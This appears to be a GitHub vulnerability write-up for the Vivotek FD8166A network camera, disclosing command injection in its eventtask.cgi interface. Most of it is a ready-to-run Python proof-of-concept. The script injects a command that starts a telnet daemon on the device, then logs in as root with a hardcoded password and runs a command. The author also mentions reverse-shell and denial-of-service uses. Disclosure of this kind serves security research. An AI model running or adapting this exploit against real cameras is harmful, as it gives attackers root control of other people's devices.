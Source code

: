 # vivotek-FD8166A-analysis

Vender：vivotek  
Firmware version: FD8166A-VVTK-0204j 
Hardware version: FD8166A  
Exploit Author: ljzjsc  
Vendor Homepage: <https://www.vivotek.com/>  
Hardware Link: <https://www.vivotek.com/fd8166a>  

## Vul detail
eventtask.cgi is a cgi interface that can be accessed in the device and can be accessed directly in the browser.

![1706496909343](./vivotek-FD8166A-eventtask-analysis.assets/1706496909343.png)

There is a command injection function in eventtask.cgi. The attacker only needs to construct the response payload to execute the response function to achieve the effect of arbitrary execution of the command.

![1706497925920](./vivotek-FD8166A-eventtask-analysis.assets/1706497925920.png)

We construct the corresponding payload to achieve rebound shell, denial of service and other attacks.

![1706500233048](./vivotek-FD8166A-eventtask-analysis.assets/1706500233048.png)

## PoC
```python
import requests
import telnetlib

url = "http://192.168.1.107/cgi-bin/admin/eventtask.cgi?method=exec&file=telnetd%20-p%208999"

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "Authorization": "Basic cm9vdDpsaTEwMTdydWk=",
    "Connection": "close",
    "Cookie": "webptzmode=continuous; activatedmode=digital; g_mode=1; viewsizemode=100; 4x3=false",
    "Upgrade-Insecure-Requests": "1"
}

response = requests.get(url, headers=headers)
print(response.status_code)
print(response.text)

tn = telnetlib.Telnet("192.168.1.107", 8999)
tn.read_until(b"login: ")
tn.write(b"root\n")
tn.read_until(b"Password: ")
tn.write(b"li1017rui\n")
response = tn.read_until(b"#")
tn.write(b"id\n")
response = tn.read_until(b"#")
print(response.decode('utf-8'))
```

<iframe width="560" height="315" src="https://www.youtube.com/embed/VIDEO_ID" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
![attack](https://github.com/cwh031600/vivotek/assets/56186866/d908d933-22f0-4fc7-a3ea-5fa9766abf6e)
[<video src="./vivotek-FD8166A-eventtask-analysis.assets/video.mp4"></video>](https://github.com/cwh031600/vivotek/assets/56186866/d908d933-22f0-4fc7-a3ea-5fa9766abf6e)https://github.com/cwh031600/vivotek/assets/56186866/d908d933-22f0-4fc7-a3ea-5fa9766abf6e
